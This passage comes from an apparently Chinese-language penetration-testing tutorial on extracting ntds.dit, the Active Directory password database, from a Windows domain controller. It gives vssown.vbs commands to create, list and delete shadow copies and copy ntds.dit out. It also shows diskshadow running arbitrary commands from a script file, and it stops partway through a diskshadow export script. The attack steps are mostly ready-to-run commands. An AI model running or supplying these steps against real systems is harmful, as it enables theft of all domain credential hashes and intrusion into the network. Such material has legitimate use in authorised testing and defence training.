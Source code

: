     cscript vssown.vbs /create c

![](https://gitee.com/fuli009/images/raw/master/public/20220419115519.png)

列出当前卷影拷贝

    
    
    cscript vssown.vbs /list

![]()

可以看到id为{F27E8849-8BFD-44E1-B6D7-C851198E971D}，存储位置为\?\GLOBALROOT\Device\HarddiskVolumeShadowCopy3

复制ntds.dit

    
    
    copy \\?\GLOBALROO\Device\\HarddiskVolumeShadowCopy3\windows\NTDS\ntds.dit c:\\ntds.dit

![](https://gitee.com/fuli009/images/raw/master/public/20220419115520.png)![](https://gitee.com/fuli009/images/raw/master/public/20220419115521.png)

删除卷影拷贝

    
    
    cscript vssown.vbs /delete {F27E8849-8BFD-44E1-B6D7-C851198E971D}

![](https://gitee.com/fuli009/images/raw/master/public/20220419115522.png)

## 使用diskshadow导出ndts.dit

可以使用diskshadow.exe来执行命令。

例如，将需要执行的命令“exec c:\windows\system\calc.exe”写入c:\command.txt文件

    
    
    echo exec c:\\windows\\system32\\calc.exe \> command.txt  
      
    type command.txt

使用diskshadow执行txt中的命令

    
    
    diskshadow /s command.txt

![]()

diskshadow也可以用来导出ntds.dit，将如下命令写入一个文件中去执行

    
    
    //设置卷影拷贝    
    set context persistent nowriters  
      
    //添加卷  
      
    add volume c: alias someAlias  
      
    //创建快照  
      
    create  
      